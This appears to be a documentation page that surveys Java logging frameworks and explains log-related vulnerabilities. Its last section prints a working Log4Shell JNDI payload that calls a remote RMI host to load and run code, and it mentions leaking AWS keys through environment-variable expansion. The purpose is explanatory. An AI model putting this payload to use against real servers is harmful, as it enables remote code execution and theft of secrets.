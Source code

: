 ```yaml
---
title: Logging
sidebar_position: 2
---
```


# Logging

Java developers have a large number of choices for logging:

 * System Logger - introduced in Java 9 (2017), an API that acts as a facade to other loggers.
 * JUL - Introduced in Java 1.4 (2002), the Java Util Logger, is generally available.
 * Log4j
    * Log4j2 - Released in 2014, a fast logging framework.
    * Log4j - Released in 2001 and end-of-lifed in 2015.
 * Logback
    * Logback - Released 2006, intended as a successor of log4j.
    * SLF4J - Released 2005, a simple logging facade. This does not provide a logger, it provides a single API that can consolidate the other loggers.
 * Apache Commong-Logging - Released in 2002 and end-of-lifed in 2014.
 * TinyLogger - Released in 2012, a fast logging framework.

Many Java applications include more that one logger. In a [2020 study by York University](https://nemo9cby.github.io/resources/pubs/icse2020_chen.pdf), researchers identified that Hadoop used six loggers and IntelliJ used twelve.

## Logging Vulnerabilities

The main type of vulnerability that impacts logs it [Log Injection](../../vulnerabilities/log-injection.mdx).

In 2021, the logging framework Log4j, [Log4J2](https://nvd.nist.gov/vuln/detail/CVE-2021-45046), and [Logback](https://cve.report/CVE-2021-42550) were vulnerable to [Remote Code Execution](../../vulnerabilities/remote-code-execution.md), allowing attackers to take control over these servers when they logged user input. The vulnerable versions of log4j spanned from 2014 to 2021. Attackers could craft input that caused the application to load and execute remote classes over JNDI.

```
${jndi:rmi://192.168.2.106:1099/vccvhr}
```

When a server with a vulnerable Log4j writes that String to a log, it loads the remote code from the host and executes it. Attackers took advantage of this in two ways:

 1. Compromising the server to run code and steal data.
 2. Expanding environment variables in the URL's hostname, to read sensitive data like AWS keys.